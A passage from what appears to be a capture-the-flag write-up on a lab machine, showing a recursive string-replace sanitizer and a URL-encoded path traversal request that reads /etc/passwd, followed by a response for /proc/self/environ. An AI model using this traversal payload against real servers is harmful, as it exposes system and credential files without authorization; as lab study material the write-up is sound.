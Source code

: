     def recursive_replace(search, replace_me, with_me):
        if replace_me not in search:
            return search
        return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
    ```
    

# Exploitation

## Path Traversal

```
GET /uploads%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd HTTP/1.1
Host: 10.129.64.151
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![OpenSource%20f45f07afdacd4cfaab930db6a8f3f493](../../zzz_res/attachments/OpenSource%20f45f07afdacd4cfaab930db6a8f3f493%205.png)

`/proc/self/environ`:

```
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.3
Date: Sat, 21 May 2022 21:24:20 GMT
Content-Disposition: inline; filename=environ
Content-Type: application/octet-stream
Content-Length: 0
Last-Modified: Sat, 21 May 2022 21:24:20 GMT
Cache-Control: no-cache
ETag: "1653168260.1997297-0-1059718893"
Date: Sat, 21 May 2022 21:24:20 GMT
Connection: close

```